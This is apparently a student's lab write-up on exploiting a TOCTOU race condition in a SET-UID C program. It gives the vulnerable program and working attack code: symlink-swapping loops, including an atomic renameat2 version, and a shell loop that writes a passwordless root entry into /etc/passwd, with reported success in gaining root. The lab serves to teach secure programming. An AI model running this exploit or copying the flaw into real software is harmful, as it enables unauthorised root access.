





## Task 2: Launching the Race Condition Attack

The objective for this task is to gain root privilege by exploiting the race condition vulnerability in this **SET-UID program**:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}

```

The critical factor in making this attack work is to point */tmp/XYZ* to the password file between the *access* and the *fopen* calls.

### Task 2.A: Simulating a Slow Machine


- In this first attempt we will exploit the race condition vulnerability by simulating a slow machine. We can do that by adding this instruction:

```
sleep(10)
```


vul.c will look like this:

```
if (!access(fn, W_OK)) {
    sleep(10);
    fp = fopen(fn, "a+");
...
```

This will give us a 10 second window to manually do something that results on the program adding a root account to the system.

To achieve this we will create a */tmp/XYZ* file, run the program with the input that we need and link the file created to the password file:






After this we successfully obtained root privilege:



### Task 2.B: The Real Attack

In this task the objective is to launch the real attack without "cheating", in this case without slowing down the vulnerable program.

To achieve this we need to write an attack program to run in parallel to the target program and hope to hit the race condition window once.

Our C attack program that removes and adds a symbolic link pointing to the */etc/passwd* file from the */tmp/XYZ* file looks like this:

```c
#include <unistd.h>
int main() {

	/*
	Run Infinite loop to try to catch the race condition 
	window
	*/
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/etc/passwd","/tmp/XYZ");
	}
	
	
	return 0;
	
}
```

To make this a successful attack we need to run the vulnerable program many times.

So according to the lab guide we may run the following shell script to run *vulp* in a loop, with the input that we want, in this case *test:U6aMy0wojraho:0:0:test:/root:/bin/bash* given by the *echo* command.

```bash
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```
We can now run both programs and monitor our results from the attack and see if it is successful.

After some attempts at executing we finally reached the objective and achieved root privilege:



It took some time to reach our goal since we had to manually remove */tmp/XYZ* file all the previous attempts because it gained root ownership and we couldn't execute the attack successfully that way.

### Task 2.C: An Improved Attack Method

In the previous task most of our attempts didn't work because our attack program, running with no root privilege could not make changes to the root owned */tmp/XYZ* file.

Using *unlink()* and *symlink()* approach gave us a race condition in our attack program which was exploited by the target program.

We can solve this issue by making *unlink()* and *symlink()* atomic.

According to the lab guide now our attack program should look like this:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main() {
	unsigned int flags = RENAME_EXCHANGE;
	unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
	unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
	while(1) {
		renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
	}
	return 0;
}
```

After performing this time the attack with this new strategy, we can see that it succeeds without problems:




